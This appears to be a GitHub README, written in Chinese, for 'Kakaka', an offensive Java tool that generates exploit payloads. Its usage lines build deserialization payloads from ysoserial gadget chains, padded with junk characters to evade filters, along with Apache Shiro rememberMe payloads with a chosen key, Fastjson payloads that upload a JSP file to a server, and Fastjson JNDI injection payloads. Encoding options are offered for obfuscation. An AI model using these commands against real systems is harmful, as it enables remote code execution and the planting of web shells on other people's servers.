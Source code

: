 # Kakaka

## 2.0 改为交互式

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211215154823.png)

得到结果

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211215154842.png)

## 生成各种payload

java -jar Kakaka.jar -yso CommonsBeanutils1 -c whoami -d 2000 -raw 生成一个带2000个脏字符的原始payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204631.png)
 
java -jar Kakaka.jar -shiro -g CommonsBeanutils1 -c whoami -k a3dvbmcAAAAAAAAAAAAAAA== 指定key和gadget生成shiro payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204714.png)

java -jar Kakaka.jar -fastjson upload -lf dogma.jsp -rf /tmp/dogma.jsp 生成fastjson文件上传payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204800.png)

java -jar Kakaka.jar -fastjson jndi -u 127.0.0.1 

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204823.png)

## 支持编码

按照参数顺序编码

支持：

  -ue  url编码
  
  -he  html编码
  
  -be  base64编码
  
  -xe  xml编码
